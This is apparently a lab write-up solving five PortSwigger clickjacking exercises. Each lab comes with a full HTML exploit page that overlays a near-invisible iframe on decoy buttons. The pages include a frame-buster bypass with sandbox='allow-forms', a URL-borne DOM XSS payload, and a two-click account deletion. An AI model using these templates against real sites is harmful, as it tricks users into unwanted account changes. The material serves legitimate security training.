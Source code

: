 # Clickjacking (UI redressing)

Get details at [here](https://portswigger.net/web-security/clickjacking)

---

[Lab 1](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected)

Description of this lab: login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

We will exploit at my-account page, use this script for exploit server body:

```html
    <html>
        <head>
        <style>
        #target_website {
            position:relative;
            width: 512px;
            height: 512px;
            opacity:0.00001;
            z-index:2;
            }
        #decoy_btn {
            position:absolute;
            top:490px;
            width:148px;
            height: 32px;
            left: 25px;
            z-index:1;
            }
        </style>
    </head>
    <body>
        <button id="decoy_btn">
            click me
        </button>
        <iframe id="target_website" src="https://0a9e00b803f9b564c403699e003600a9.web-security-academy.net/my-account">
        </iframe>
    </body>
    </html>
```

Clicking store then deliver to victim button, and solved the lab.

[Lab 2](https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input)

Description of this lab: craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed, change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.

Using this script for body part of exploit server, deliver to victim for solving the lab. 

```html
    <html>
        <head>
            <style>
                #target_website {
                    position:relative;
                    width: 512px;
                    height: 512px;
                    opacity:0.00001;
                    z-index:2;
                }

                #decoy_btn {
                    position:absolute;
                    top:443px;
                    width:133px;
                    height: 32px;
                    left: 40px;
                    z-index:1;
                }
            </style>
        </head>

        <body>
            <button id="decoy_btn">
                click me
            </button>
            <iframe id="target_website" src="https://0adc002b04cbf2d9c0464d1400b70014.web-security-academy.net/my-account?email=test@example.com">
            </iframe>
        </body>
    </html>
```
[Lab 3](https://portswigger.net/web-security/clickjacking/lab-frame-buster-script)

Description of this lab: craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed, get around the frame buster and conduct a clickjacking attack that changes the users email address

Using `sandbox="allow-forms"` in script for body part of exploit server for frame buster, deliver to victim for solving the lab. 

```html
    <html>
        <head>
            <style>
                #target_website {
                    position:relative;
                    width: 512px;
                    height: 512px;
                    opacity:0.00001;
                    z-index:2;
                }
                #decoy_btn {
                    position:absolute;
                    top:443px;
                    width:133px;
                    height: 32px;
                    left: 40px;
                    z-index:1;
                }
            </style>
        </head>

        <body>
            <button id="decoy_btn">
                click me
            </button>
            <iframe sandbox="allow-forms" id="target_website" src="https://0abc007403c75832c048cd1d00620031.web-security-academy.net/my-account?email=target@website.com">
            </iframe>
        </body>
    </html>

```

[Lab 4](https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss)

Description of this lab: XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the print() function.

We can find the vulnerability in feedback form where users can type anything. Use this script in exploit server and do it like previous lab, then solved the lab.

```html
    <html>
    <head>
        <style>
        #target_website {
            position:relative;
            width: 512px;
            height: 1024px;
            opacity:0.10001;
            z-index:2;
            }
        #decoy_btn {
            position:absolute;
            top:798px;
            width:158px;
            height: 32px;
            left: 27px;
            z-index:1;
            }
        </style>
    </head>
    <body>
        <button id="decoy_btn">
        click
        </button>
        <iframe id="target_website" src="https://0aeb002903c405aac09ef522001600ab.web-security-academy.net/feedback?name=%3Cimg%20src=x%20onerror=%22print()%22/%3E&email=target@website.com&subject=blabla&message=blabla">
        </iframe>
    </body>
    </html>
```

[Lab 5](https://portswigger.net/web-security/clickjacking/lab-multistep)

Description of this lab: solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. This lab is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking

Bypass its protection with 2 buttons, using this script for body part of exploit server, deliver to victim for solving the lab. 

```html
    <html>
        <head>
            <style>
                #target_website {
                    position:relative;
                    width: 512px;
                    height: 512px;
                    opacity:0.10001;
                    z-index:2;
                }
                #first_decoy_btn {
                    position:absolute;
                    top:490px;
                    width:148px;
                    height: 32px;
                    left: 25px;
                    z-index:1;
                }
                #second_decoy_btn {
                    position:absolute;
                    top:288px;
                    width:120px;
                    height: 32px;
                    left: 193px;
                    z-index:1;
                }
            </style>
        </head>

        <body>
            <button id="first_decoy_btn">
                Click me first
            </button>
            <button id="second_decoy_btn">
                Click me next
            </button>
            <iframe id="target_website" src="https://0a6e00b704a9bb4ec04e21e0005000b7.web-security-academy.net/my-account">
            </iframe>
        </body>
    </html>
```
